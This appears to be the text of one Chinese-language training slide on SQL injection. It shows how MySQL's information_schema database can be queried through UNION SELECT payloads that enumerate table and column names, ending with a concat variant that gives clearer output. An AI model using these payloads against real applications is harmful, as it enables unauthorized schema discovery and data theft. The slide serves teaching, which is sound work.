

SQL注入和利用
   MYSQL5.0以后包含数据库information_schema，我可利用它个数据 库构建语句。

1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables

1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns

1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns

1 UNION SELECT  1,concat(table_name,':', column_name),3,4 FROM information_schema.columns

比较上面几个语句，后面一个使查询结果变得更直观。可以清楚地知道information_schema数据库中表与字段。